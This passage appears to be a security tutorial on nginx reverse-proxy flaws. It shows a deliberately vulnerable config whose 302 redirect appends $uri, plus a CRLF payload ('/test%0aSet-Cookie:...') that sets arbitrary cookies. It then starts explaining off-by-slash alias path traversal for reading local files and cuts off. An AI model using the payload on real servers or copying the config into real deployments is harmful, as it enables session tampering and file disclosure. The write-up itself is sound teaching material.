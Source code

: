 ### CRLF injection

POC link: https://github.com/threalwinky/reverse-proxy-bypass/tree/main/crlf-injection

Return 302 redirection and $uri or $args can cause CRLF injection

```nginx
user nginx;
worker_processes auto;

events {
    worker_connections 1024;
}

http {
  server {

    server_tokens off;   

    listen *:80;

    location / {
      proxy_pass http://app:5000;
    }

    location /test {
      return 302 https://example.com$uri;
    }
  }
}
```

Let's test with this payload:

`/test%0aSet-Cookie:%20a=b`

![image](https://hackmd.io/_uploads/BJm-fgx6ll.png)

Now we can set arbitrary cookie in the user session

![image](https://hackmd.io/_uploads/HJgzMexage.png)



### Off-By-Slash

POC link: https://github.com/threalwinky/reverse-proxy-bypass/tree/main/off-by-slash

Off-By-Slash is a popular mistake which is discovered by Orange Tsai: https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

The bug said that is alias use with directory ends with slash `/` then we can perform path traversal to read local files or simply bypass ACL rule .Imagine that we have a simple nginx server to serve file from `/var/www/html/static/image/`
